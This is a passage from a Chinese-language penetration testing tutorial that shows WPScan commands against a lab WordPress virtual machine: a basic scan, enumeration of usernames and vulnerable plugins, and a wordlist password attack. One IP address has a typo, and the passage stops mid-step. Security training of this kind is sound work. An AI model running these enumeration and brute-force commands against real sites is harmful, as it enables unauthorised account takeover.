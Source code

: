 2.  让我们对WordPress虚拟机执行基本的 WPScan测试。这里，我们靶机的IP地址是`192.168.56.102`。

    ```
    wpscan –u 192.168.56.102
    ```

3.  现在，让我们通过执行下列命令枚举用户名列表：

    ```
    wpscan –u 192.186.56.102 –e u vp
    ```

    页面会像下面这样：

    ![](../img/b413083baa9008bc41c0aeb257e260e5.png)

4.  最后，我们通过使用`–wordlist <文件路径>`选项来提供单词列表：

    ```
    wpscan –u 192.168.56.102 -e u --wordlist /root/wordlist.txt
    ```

    页面会像下面这样：

